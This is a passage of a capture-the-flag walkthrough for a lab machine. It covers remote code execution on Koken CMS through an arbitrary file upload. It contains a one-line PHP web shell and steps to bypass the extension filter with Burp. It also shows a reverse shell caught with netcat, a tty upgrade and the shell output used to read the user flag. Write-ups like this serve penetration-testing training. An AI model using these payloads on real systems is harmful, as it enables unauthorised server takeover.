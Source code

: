 ```

Steps to exploit:

1. Create a malicious PHP file with this content:

   <?php system($_GET['cmd']);?>

2. Save as "image.php.jpg"

3. Authenticated, go to Koken CMS Dashboard, upload your file on "Import Content" button (Library panel) and send the HTTP request to Burp.

4. On Burp, rename your file to "image.php"
```

#### RCE via Arbitrary File Upload

Following the exploit steps, instead of creating a malicious php file an already
prepared reverse shell can be used, which is found at
/usr/share/webshells/php/php-reverse-shell.php on Kali Linux. Three changes that
need to be done are changing the file extension to .jpg and the IP address and
port number inside the file to the one of your attacker machine’s IP address and
listening port.

```
cp /usr/share/webshells/php/php-reverse-shell.php rs.php.jpg
```
![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Photographer/media/a5fbad12bff572ad736f5b78ffa5f50f.png?raw=true)

When uploading the file, intercept HTTP request with a web proxy, in this case
it was Burp Suite Community Edition and change the file extension back to php.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Photographer/media/241db35dde081c124799314c15f94ba8.png?raw=true)

#### Reverse Shell

Once that is done use netcat to listen on a port of choice, in this case it was
port 8080 and user browser to browse to the file’s location. Once the reverse
shell is obtained, upgrade the shell to tty using python. The user flag can be
found in /home/daisa/user.txt

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Photographer/media/430fc36bd9bf46bd7168b0099d044da0.png?raw=true)

```
nc -nvlp 8080
listening on [any] 8080 ...
connect to [192.168.211.143] from (UNKNOWN) [192.168.211.152] 52948
Linux photographer 4.15.0-107-generic #108~16.04.1-Ubuntu SMP Fri Jun 12 02:57:13 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 05:22:39 up 51 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@photographer:/$ ls /home
ls /home
agi  daisa  lost+found
www-data@photographer:/$ cat /home/daisa/user.txt
cat /home/daisa/user.txt
d41d8cd98f00b204e9800998ecf8427e
```
